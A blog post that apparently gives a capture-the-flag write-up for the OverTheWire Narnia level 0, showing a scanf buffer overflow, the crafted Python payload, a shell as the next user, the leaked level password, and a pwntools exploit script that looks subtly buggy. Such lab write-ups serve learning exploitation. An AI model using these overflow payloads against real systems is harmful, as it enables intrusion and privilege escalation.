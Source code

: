 ```yaml
---
layout: post
title:  "Overthewire - Narnia 0-4"
date:   2020-04-26 15:07:19
categories: [Binary Exploitation]
excerpt: "This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire."
comments: true
---
```


This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire.
## Narnia 0-1
![source](/img/source.png){: .align-left}


From the code it's clear we need to give val the value of 0xdeadbeef to get a shell as narnia1 user.
By observing the code we can spot the issue from scanf() function. The scanf() is used to get the input for buffer buff. and this function have no bound checkings on input, buf variable is 20 bytes long but the scanf() reads in 24 bytes hence we can overwrite the variable “val” with any value we like.
```
![source](/img/terminal.png){: .align-left}
```bash
file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0840ec7ce39e76ebcecabacb3dffb455cfa401e9, not stripped
```
Our target binary is an ELF 32-bit binary.ELF is Executable Linkable Format which consists of a symbol look-ups and relocatable table, that is, it can be loaded at any memory address by the kernel.

### Exploitation

Let's send some crafted input to the program and monitor

```python
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "CCCC"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
narnia0@narnia:/narnia$ 
```
Great we have overwritten the val variable with 0x43434343 which is our 4 "C". Now we know we can overite the val variable . We just need to replace "C" with 0xdeadbeef which is the correct value the program accept. Before that we need to convert 0xdeadbeef to little endian format as we are on little endian machine.
> 0xdeadbeef to little endian "\xef\xbe\xad\xde".

### Grabbing the flag:

```python
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

> Full exploit


```python
from pwn import *

context(arch='i386', os='linux')
context.log_level = 'debug'
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', port=2226, password='narnia0')
sh = s.run('/narnia/narnia0')
payload = ""
payload = 'A'*20 + '\xef\xbe\xad\xde'
s.sendline(payload)
sh.recvline(s)
s.sendline('cat /etc/narnia_pass/narnia1')
sh.recvline(sh)
```

### Conclusion 
Pwned! Nice and simple bufferoverflow challenge .Next challenge is Narnia1.


>

